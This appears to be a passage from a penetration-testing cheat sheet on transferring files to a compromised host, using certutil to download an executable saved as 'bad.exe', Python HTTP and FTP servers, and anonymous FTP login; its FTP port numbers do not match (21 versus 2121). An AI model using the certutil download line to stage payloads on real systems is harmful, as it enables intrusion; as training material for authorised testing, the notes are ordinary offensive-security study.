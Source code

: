 - [ ] Certutil (Client)

```powershell
$ certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

**Note :** The space in between `40564.exe` and `bad.exe` is what the file we be named after download, in this case it is `bad.exe`

- [ ] HTTP (Server)

```powershell
# Python2
$ python -m SimpleHTTPServer 80

# Python3
$ python3 -m http.server 80
```

- [ ] Browser (Client)
	- If we have a python server hosting a file and we do have RDP on a client machine, we can navigate directly to the file by specifying the IP-ADDRESS of this server

- [ ] FTP

```powershell
# On Sender machine run this
$ python -m pyftpdlib 21

# On the receiver machine run this
ftp <SENDER-IP-ADDRESS> 2121
```

**Note :** Make sure to install the **pyftpdlib** library with `pip3 install pyftpdlib` , Also the receiver can either be a Windows or Linux client.
#### **Example**

![](https://i.imgur.com/qups1Lw.png)

You can log in with the username `Anonymous` and then when asked for a password hit **Enter**